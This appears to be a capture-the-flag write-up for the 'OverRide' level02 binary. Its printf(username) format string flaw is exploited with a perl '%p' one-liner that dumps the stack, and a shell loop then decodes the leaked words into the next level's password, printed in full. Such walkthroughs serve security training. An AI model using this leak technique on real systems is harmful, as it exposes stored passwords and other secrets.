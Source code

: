 # level02

The program reads a username and a password from stdin, then it compares the password to the real password read from `/home/users/level03/.pass`. If two password don't match, the binary will print username by calling `printf(username)` directly with our input username as format string.

## Step 1 Find real password in stack
```
level02@OverRide:~$ perl -e 'print "%p "x30 . "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
We can use the uncontrolled format string to show us the values of stack which contains the password data. `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` is the password in little-endian format.

## Step 2 Convert little-endian password to normal string
```
level02@OverRide:~$ pass="0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d"
level02@OverRide:~$ for fragment in $pass
> do
> echo $fragment | xxd -r | rev | tr -d "\n"
> done; echo
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
